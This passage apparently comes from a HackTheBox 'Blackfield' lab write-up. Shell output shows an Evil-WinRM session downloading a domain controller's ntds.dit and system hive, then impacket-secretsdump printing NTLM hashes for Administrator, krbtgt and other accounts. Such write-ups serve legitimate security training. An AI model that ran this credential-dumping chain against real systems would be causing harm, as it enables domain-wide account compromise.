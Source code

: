 ```shell


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        2/26/2023   8:16 PM            191 backupscript.txt
-a----        2/26/2023   8:43 PM       18874368 ntds.dit
-a----        2/26/2023   8:52 PM       17580032 system


*Evil-WinRM* PS C:\Users\svc_backup\Documents> download ntds.dit
Info: Downloading ntds.dit to ./ntds.dit

                                                             
Info: Download successful!

*Evil-WinRM* PS C:\Users\svc_backup\Documents> download system
Info: Downloading system to ./system

                                                             
Info: Download successful!

*Evil-WinRM* PS C:\Users\svc_backup\Documents> exit

Info: Exiting with code 0
```

Now that we have downloaded the necessary files (system and ntds.dit) to our attacking machine we can utilize (impacket)[https://github.com/fortra/impacket] to decode the user accounts and reveal their password hashes.

```shell
┌──(thadigus㉿kali)-[~/HTB/Blackfield/privesc]
└─$ impacket-secretsdump -system ./system -ntds ./ntds.dit LOCAL
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Target system bootKey: 0x73d83e56de8961ca9f243e1a49638393
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Searching for pekList, be patient
[*] PEK # 0 found and decrypted: 35640a3fd5111b93cc50e3b4e255ff8c
[*] Reading and decrypting hashes from ./ntds.dit 
Administrator:500:aad3b435b51404eeaad3b435b51404ee:184fb5e5178480be64824d4cd53b99ee:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DC01$:1000:aad3b435b51404eeaad3b435b51404ee:2502dc899b69e2ec509bd7fbe6f76fd5:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:d3c02561bba6ee4ad6cfd024ec8fda5d:::
audit2020:1103:aad3b435b51404eeaad3b435b51404ee:600a406c2c1f2062eb9bb227bad654aa:::
support:1104:aad3b435b51404eeaad3b435b51404ee:cead107bf11ebc28b3e6e90cde6de212:::
BLACKFIELD.local\BLACKFIELD764430:1105:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
### SNIP ###
[*] Cleaning up... 
```

